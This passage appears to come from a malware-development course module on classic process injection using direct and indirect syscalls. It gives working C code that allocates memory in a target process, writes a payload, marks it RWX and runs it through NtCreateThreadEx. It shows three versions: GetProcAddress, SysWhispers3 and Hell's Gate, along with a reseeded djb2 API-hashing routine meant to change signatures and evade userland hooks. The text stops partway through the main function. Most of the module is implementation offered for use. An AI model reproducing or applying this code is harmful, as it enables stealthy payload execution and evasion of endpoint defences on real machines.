










Introduction
In this module, the classical process injection technique discussed earlier will be implemented using direct syscalls, replacing WinAPIs with their syscall equivalent.
VirtualAlloc/Ex is replaced with NtAllocateVirtualMemoryVirtualProtect/Ex is replaced with NtProtectVirtualMemoryWriteProcessMemory is replaced with NtWriteVirtualMemoryCreateThread/RemoteThread is replaced with NtCreateThreadExRequired Syscalls
This section will go through the required syscalls that will be used and explain their parameters.
NtAllocateVirtualMemory
This is the resulting syscall from the VirtualAlloc and VirtualAllocEx WinAPIs. NtAllocateVirtualMemory is shown below.
NTSTATUS NtAllocateVirtualMemory(
IN HANDLE ProcessHandle, // Process handle in where to allocate memory
IN OUT PVOID *BaseAddress, // The returned allocated memory's base address
IN ULONG_PTR ZeroBits, // Always set to '0'
IN OUT PSIZE_T RegionSize, // Size of memory to allocate
IN ULONG AllocationType, // MEM_COMMIT | MEM_RESERVE
IN ULONG Protect // Page protection
);NtAllocateVirtualMemory is similar to the VirtualAllocEx WinAPI, however, it differs in that the RegionSize and BaseAddress are both passed by reference, using the address of operator (&). ZeroBits is a newly introduced parameter that is defined as the number of high-order address bits that must be zero in the base address of the section view. This parameter is always set to zero.
The RegionSize parameter is marked as an IN and OUT parameter. This is because the value of RegionSize may change depending on what was actually allocated. Microsoft states that the initial value of RegionSize specifies the size, in bytes, of the region and is rounded up to the next host page size boundary. This means that NtAllocateVirtualMemory rounds up to the nearest multiple of a page size, which is 4096 bytes. For example, if RegionSize is set to 5000 bytes, it will round it up to 8192 and RegionSize will return the value which was allocated, which is 8192 in this example.
As previously mentioned in earlier modules, all the syscalls return NTSTATUS. If successful, it will be set to STATUS_SUCCESS (0). Otherwise, a non-zero value is returned if the syscall fails.
NtProtectVirtualMemory
This is the resulting syscall from the VirtualProtect and VirtualProtectEx WinAPIs. NtProtectVirtualMemory is shown below.
NTSTATUS NtProtectVirtualMemory(
IN HANDLE ProcessHandle, // Process handle whose memory protection is to be changed
IN OUT PVOID *BaseAddress, // Pointer to the base address to protect
IN OUT PULONG NumberOfBytesToProtect, // Pointer to size of region to protect
IN ULONG NewAccessProtection, // New memory protection to be set
OUT PULONG OldAccessProtection // Pointer to a variable that receives the previous access protection
);Both BaseAddress and NumberOfBytesToProtect are passed by reference, using the "address of" operator (&).
The NumberOfBytesToProtect parameter behaves similarly to the RegionSize parameter in NtAllocateVirtualMemory where it rounds up the number of bytes to the nearest multiple of a page.
NtWriteVirtualMemory
This is the resulting syscall from the WriteProcessMemory WinAPI. NtWriteVirtualMemory is shown below.
NTSTATUS NtWriteVirtualMemory(
IN HANDLE ProcessHandle, // Process handle whose memory is to be written to
IN PVOID BaseAddress, // Base address in the specified process to which data is written
IN PVOID Buffer, // Data to be written
IN ULONG NumberOfBytesToWrite, // Number of bytes to be written
OUT PULONG NumberOfBytesWritten // Pointer to a variable that receives the number of bytes actually written
);NtWriteVirtualMemory's parameters are the same as its WinAPI version, WriteProcessMemory.
NtCreateThreadEx
This is the resulting syscall from the CreateThread, CreateRemoteThread and CreateRemoteThreadEx WinAPIs. NtCreateThreadEx is shown below.
NTSTATUS NtCreateThreadEx(
OUT PHANDLE ThreadHandle, // Pointer to a HANDLE variable that recieves the created thread's handle
IN ACCESS_MASK DesiredAccess, // Thread's access rights (set to THREAD_ALL_ACCESS - 0x1FFFFF)
IN POBJECT_ATTRIBUTES ObjectAttributes, // Pointer to OBJECT_ATTRIBUTES structure (set to NULL)
IN HANDLE ProcessHandle, // Handle to the process in which the thread is to be created.
IN PVOID StartRoutine, // Base address of the application-defined function to be executed
IN PVOID Argument, // Pointer to a variable to be passed to the thread function (set to NULL)
IN ULONG CreateFlags, // The flags that control the creation of the thread (set to NULL)
IN SIZE_T ZeroBits, // Set to NULL
IN SIZE_T StackSize, // Set to NULL
IN SIZE_T MaximumStackSize, // Set to NULL
IN PPS_ATTRIBUTE_LIST AttributeList // Pointer to PS_ATTRIBUTE_LIST structure (set to NULL)
);NtCreateThreadEx looks similar to the CreateRemoteThreadEx WinAPI. NtCreateThreadEx is a very flexible syscall and can allow complex manipulation of the created threads. However, for our purpose, the majority of its parameters will be set to NULL.
Implementation Using GetProcAddress and GetModuleHandle
Calling the syscalls will be done using several methods, starting with the commonly used GetProcAddress and GetModuleHandle WinAPIs. This technique is straightforward and has been used multiple times to dynamically call syscalls. As previously discussed, however, this method does not bypass any userland hooks installed on the syscalls.
In the code provided for download in this module, a Syscall structure is created and initialized using InitializeSyscallStruct, which holds the addresses of the syscalls used, as shown below.
// A structure that keeps the syscalls used
typedef struct _Syscall {
fnNtAllocateVirtualMemory pNtAllocateVirtualMemory;
fnNtProtectVirtualMemory pNtProtectVirtualMemory;
fnNtWriteVirtualMemory pNtWriteVirtualMemory;
fnNtCreateThreadEx pNtCreateThreadEx;
} Syscall, *PSyscall;
// Function used to populate the input 'St' structure
BOOL InitializeSyscallStruct (OUT PSyscall St) {
HMODULE hNtdll = GetModuleHandle(L"NTDLL.DLL");
if (!hNtdll) {
printf("[!] GetModuleHandle Failed With Error : %d \n", GetLastError());
return FALSE;
}
St->pNtAllocateVirtualMemory = (fnNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
St->pNtProtectVirtualMemory = (fnNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
St->pNtWriteVirtualMemory = (fnNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
St->pNtCreateThreadEx = (fnNtCreateThreadEx)GetProcAddress(hNtdll, "NtCreateThreadEx");
// check if GetProcAddress missed a syscall
if (St->pNtAllocateVirtualMemory == NULL || St->pNtProtectVirtualMemory == NULL || St->pNtWriteVirtualMemory == NULL || St->pNtCreateThreadEx == NULL)
return FALSE;
else
return TRUE;
}Next, the ClassicInjectionViaSyscalls function will be responsible for executing the payload, pPayload, in the target process, hProcess. The function returns FALSE if it fails to execute the payload and TRUE if it succeeds. Additionally, the function can be used to inject both local and remote processes depending on the value of hProcess.
BOOL ClassicInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
Syscall St = { 0 };
NTSTATUS STATUS = 0x00;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
HANDLE hThread = NULL;
// Initializing the 'St' structure to fetch the syscall's addresses
if (!InitializeSyscallStruct(&St)){
printf("[!] Could Not Initialize The Syscall Struct \n");
return FALSE;
}
//--------------------------------------------------------------------------
// Allocating memory
if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
//--------------------------------------------------------------------------
// Writing the payload
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Changing the memory's permissions to RWX
if ((STATUS = St.pNtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Executing the payload via thread
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
if ((STATUS = St.pNtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));
return TRUE;
}Payload Size & Rounding Up
Recall that NtAllocateVirtualMemory rounds up the value of RegionSize to be a multiple of 4096. Due to the rounding up of the size, one must be careful when using the same payload size variable when allocating memory and writing to memory as it can lead to more bytes being written than what was intended. This is why the code above uses separate size variables for NtAllocateVirtualMemory and NtWriteVirtualMemory.
The issue is demonstrated in the code snippet below.
// sPayloadSize is the payload's size (272 bytes)
// Allocating memory
if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sPayloadSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
return FALSE;
}
// sPayloadSize's value is now 4096
// Writing the payload with sPayloadSize (NumberOfBytesToWrite) as 4096 instead of the original size
if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0) {
return FALSE;
}Implementation Using SysWhispers
The implementation here uses SysWhispers3 to bypass userland hooks via indirect syscalls. The following command is used to generate the required files for this implementation.
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtAllocateVirtualMemory,NtProtectVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx -o SysWhispers -vThree files are generated: SysWhispers.h, SysWhispers.c and SysWhispers-asm.x64.asm. The next step is to import these files into Visual Studio as noted in the SysWhisper's Readme here. The steps are demonstrated below.
Step 1
Copy the generated files to the project folder and then add them to the Visual Studio project as existing items.

Step 2
Enable MASM in the project to allow for the compilation of the generated assembly code.


Step 3
Modify the properties to set the ASM file to be compiled using Microsoft Macro Assembler.


Step 4
The Visual Studio project can now be compiled. The ClassicInjectionViaSyscalls function is shown below.
BOOL ClassicInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {
NTSTATUS STATUS = 0x00;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
HANDLE hThread = NULL;
// Allocating memory
if ((STATUS = NtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
//--------------------------------------------------------------------------
// Writing the payload
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
if ((STATUS = NtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Changing the memory's permissions to RWX
if ((STATUS = NtProtectVirtualMemory(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Executing the payload via thread
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
if ((STATUS = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));
return TRUE;
}Implementation Using Hell's Gate
The last implementation for this module is using Hell's Gate. First, ensure that the same steps done to set up the Visual Studio project with SysWhispers3 are done here too. Specifically, enabling MASM and modifying the properties to set the ASM file to be compiled using the Microsoft Macro Assembler.
Changing Payload Function
A few changes need to be made to the Hell's Gate code. First, the Payload function must be replaced with the ClassicInjectionViaSyscalls function.
BOOL ClassicInjectionViaSyscalls(IN PVX_TABLE pVxTable, IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
NTSTATUS STATUS = 0x00;
PVOID pAddress = NULL;
ULONG uOldProtection = NULL;
SIZE_T sSize = sPayloadSize,
sNumberOfBytesWritten = NULL;
HANDLE hThread = NULL;
// Allocating memory
HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
printf("[#] Press <Enter> To Write The Payload ... ");
getchar();
//--------------------------------------------------------------------------
// Writing the payload
printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
HellsGate(pVxTable->NtWriteVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
printf("[+] DONE \n");
//--------------------------------------------------------------------------
// Changing the memory's permissions to RWX
HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
if ((STATUS = HellDescent(hProcess, &pAddress, &sPayloadSize, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {
printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
//--------------------------------------------------------------------------
// Executing the payload via thread
printf("[#] Press <Enter> To Run The Payload ... ");
getchar();
printf("\t[i] Running Thread Of Entry 0x%p ... ", pAddress);
HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
if ((STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, NULL, NULL, NULL, NULL, NULL)) != 0) {
printf("[!] NtCreateThreadEx Failed With Error : 0x%0.8X \n", STATUS);
return FALSE;
}
printf("[+] DONE \n");
printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));
return TRUE;
}Updating The VX_TABLE Structure
Next, the VX_TABLE structure must be updated with the names of the syscalls that are used in this module, as shown below.
typedef struct _VX_TABLE {
VX_TABLE_ENTRY NtAllocateVirtualMemory;
VX_TABLE_ENTRY NtWriteVirtualMemory;
VX_TABLE_ENTRY NtProtectVirtualMemory;
VX_TABLE_ENTRY NtCreateThreadEx;
} VX_TABLE, * PVX_TABLE;Updating Seed Value
A new seed value will be used to replace the old one to change the hash values of the syscalls. The djb2 hashing function is updated with the new seed value below.
DWORD64 djb2(PBYTE str) {
DWORD64 dwHash = 0x77347734DEADBEEF; // Old value: 0x7734773477347734
INT c;
while (c = *str++)
dwHash = ((dwHash << 0x5) + dwHash) + c;
return dwHash;
}The following printf statements should be added to a new project to generate the djb2 hash values.
printf("#define %s%s 0x%p \n", "NtAllocateVirtualMemory", "_djb2", (DWORD64)djb2("NtAllocateVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtWriteVirtualMemory", "_djb2", djb2("NtWriteVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtProtectVirtualMemory", "_djb2", djb2("NtProtectVirtualMemory"));
printf("#define %s%s 0x%p \n", "NtCreateThreadEx", "_djb2", djb2("NtCreateThreadEx"));
Once the values are generated, add them to the start of the Hell's Gate project.
#define NtAllocateVirtualMemory_djb2 0x7B2D1D431C81F5F6#define NtWriteVirtualMemory_djb2 0x54AEE238645CCA7C#define NtProtectVirtualMemory_djb2 0xA0DCC2851566E832#define NtCreateThreadEx_djb2 0x2786FB7E75145F1AUpdating The Main Function
The main function must be updated to call the ClassicInjectionViaSyscalls instead of the payload function. The function will use the above-generated hashes as shown below.
INT main() {
// Getting the PEB structure
PTEB pCurrentTeb = RtlGetThreadEnvironmentBlock();
PPEB pCurrentPeb = pCurrentTeb->ProcessEnvironmentBlock;
if (!pCurrentPeb || !pCurrentTeb || pCurrentPeb->OSMajorVersion != 0xA)
return 0x1;
// Getting the NTDLL module
PLDR_DATA_TABLE_ENTRY pLdrDataEntry = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pCurrentPeb->LoaderData->InMemoryOrderModuleList.Flink->Flink - 0x10);
// Getting the EAT of Ntdll
PIMAGE_EXPORT_DIRECTORY pImageExportDirectory = NULL;
if (!GetImageExportDirectory(pLdrDataEntry->DllBase, &pImageExportDirectory) || pImageExportDirectory == NULL)
return 0x01;
//--------------------------------------------------------------------------
// Initializing the 'Table' structure
VX_TABLE Table = { 0 };
Table.NtAllocateVirtualMemory.dwHash = NtAllocateVirtualMemory_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtAllocateVirtualMemory))
return 0x1;
Table.NtWriteVirtualMemory.dwHash = NtWriteVirtualMemory_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtWriteVirtualMemory))
return 0x1;
Table.NtProtectVirtualMemory.dwHash = NtProtectVirtualMemory_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtProtectVirtualMemory))
return 0x1;
Table.NtCreateThreadEx.dwHash = NtCreateThreadEx_djb2;
if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &Table.NtCreateThreadEx))
return 0x1;
//--------------------------------------------------------------------------
// injection code - calling the 'ClassicInjectionViaSyscalls' function
// If local injection
